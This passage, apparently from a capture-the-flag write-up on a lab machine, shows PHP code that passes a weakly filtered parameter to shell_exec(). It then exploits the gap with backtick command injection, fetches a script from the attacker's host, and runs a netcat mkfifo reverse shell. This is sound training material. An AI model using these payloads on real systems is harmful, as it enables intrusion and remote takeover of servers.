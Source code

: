 ![Inquiry status](./images/inquiry-status.png)

This relates to the `shell_exec()` vulnerability found earlier on Gitea.

```php
if (isset($_POST['inquiry_id'])) {
  $inquiryId = preg_replace('/[\$<>;|&{}\(\)\[\]\'\"]/', '', $_POST['inquiry_id']);
  $contents = shell_exec("cat /var/www/mailroom/inquiries/$inquiryId.html");
```

Given this information, it's apparent that characters such as `$<>;|&[]` are filtered, preventing command chaining. However, backticks remain unfiltered and can be used for command injection. Sending a request like this returns a response on a local HTTP server running on the attack box, confirming command injection on the `inquiry_id` parameter.

```bash
> http -ph POST staff-review-panel.mailroom.htb/inspect.php Cookie:PHPSESSID=d9e2302f38cb5348e2254ef887b4cf66 inquiry_id='test`curl http://10.10.14.35:8000`' -f
```

To establish a reverse shell, uploaded a shell that utilized the `netcat mkfifo` reverse shell and executed it.

```bash
> echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 9005 >/tmp/f' > revshell.sh
> http -ph POST staff-review-panel.mailroom.htb/inspect.php Cookie:PHPSESSID=d9e2302f38cb5348e2254ef887b4cf66 inquiry_id='test`curl http://10.10.14.35:8000/revshell.sh --output /dev/shm/revshell.sh`' -f
> http -ph POST staff-review-panel.mailroom.htb/inspect.php Cookie:PHPSESSID=d9e2302f38cb5348e2254ef887b4cf66 inquiry_id='test`bash /dev/shm/revshell.sh`' -f
```
